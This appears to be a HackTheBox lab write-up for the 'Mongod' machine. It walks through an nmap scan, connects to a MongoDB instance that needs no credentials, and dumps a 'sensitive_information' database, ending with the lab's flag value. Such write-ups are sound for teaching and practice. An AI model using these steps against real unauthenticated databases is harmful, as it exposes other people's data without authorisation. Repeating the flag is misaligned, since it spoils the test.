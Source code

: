 ## Mongod HackTheBox
#### Short Bio
Super cool room on MongoDB and how to access it via CLI. **ou will learn:**
- MongoDB
- MongoDB commands
- Structures of DB
___

#### `Nmap` Time:
```bash
nmap -v -A -sV --privileged -T4 10.129.228.30 -p- -O -sC
```
**`Result`**
|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|22/tcp|open|ssh|OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)|
|27017/tcp|open|mongodb|MongoDB 3.6.8|

The Nmap result is really big for this page, so I've create a seperate doc for it [here](./nmap)
We have Mongo DB and SSH open. Cool.

---
#### Accessing MongoDB
MongoDB has it's own support for cli access which is `mongo`. <br>
```bash
# To install:
apt install mongodb-clients -y

# To connect with out pass/ user:
mongo "mongodb://10.129.228.30:27017"

```
Wait a moment, don't make mistake by thinking that this is a normal shell. It's not, you need special commands specific for mongo db.

Well how do you know that? easy, just type `help`.
You will get all the commands you need.

---

#### Getting Flag
- First we will check all the available DBs. **Command** ::: `show dbs`
- we have bunch of dbs and all of them are interesting. But we know which one to check (sensitive_information)
- to use this type: `use sensitive_information`
- Now we need to see whats inside. Type: `show collections` and we can see a collection called `flag`. Now we need to get the contents of the `flag`.
- Befor viewing the contents we need to know what command to use. for that, type: `db.flag.help()`
- we get a command like this:
```terminal
db.flag.find([query],[fields]) - query is an optional query filter. fields is optional set of fields to 

e.g. db.flag.find( {x:77} , {name:1, x:1} )
```
so, lets try: `db.flag.find()` and we got:
```js
> db.flag.find()
{ "_id" : ObjectId("630e3dbcb82540ebbd1748c5"), "flag" : "1b6e6fb359e7c40241b6d431427ba6ea" }
```
Done

